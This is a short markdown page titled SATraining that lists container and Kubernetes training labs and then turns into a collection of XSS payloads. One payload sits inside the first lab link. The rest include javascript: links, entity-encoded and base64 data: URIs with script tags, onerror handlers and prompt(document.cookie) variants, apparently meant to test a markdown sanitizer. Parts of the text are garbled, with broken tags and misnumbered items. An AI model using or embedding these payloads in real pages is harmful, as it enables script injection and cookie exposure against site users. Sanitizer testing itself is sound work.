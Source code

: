 # SATraining

## Order that the labs should be delivered:

1. [Deploy Atomic Hosts](javascript&#58;alert(1&#41;)deployAtomicHosts.md?q=<script type='text/javascript'>alert('xss')</script>)
1. [Atomic LVM Storage](atomicDockerLVM.md)
1. [SPC Images / Containers](spcContainers.md)
1. [Configure Flannel](configFlannel.md)
1. [Configure Kubernetes](configKubernetes.md)

a5c3785ed8d6a35868bc169f07<script type='text/javascript'>alert('xss');</script>e40e889087fd2e

https://raw.githubusercontent.com/runcom/SATraining/master/index.html

 <a crossorigin='anonymous' integrity="sha256-10f6dcb805d710962eca1331ca575dfabc18c9aaadc5ce762825cc496f70d02d" href='javascript&#58;alert(1&#41;' alt="logo">test<a>

[Gotcha](javascript&#58this;alert(1&#41;)

> hello <img name="n" s
> rc
> &#61;"javascript&#58this;alert(1&#41;">*you*</a>

3. &#61;"javascript&#58this;alert(1&#41;">*you*</a>
4. 
5. 6. 
12. [notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)

[a](javascript:prompt(document.cookie))
[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))
![a](javascript:prompt(document.cookie))\
<javascript:prompt(document.cookie)>  
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>  
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
![a'"`onerror=prompt(document.cookie)](x)\
[citelol]: (javascript:prompt(document.cookie))
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[test](javascript://%0d%0aprompt(1))
[test](javascript://%0d%0aprompt(1);com)


![a'"`onerror=prompt(document.cookie)](x)\
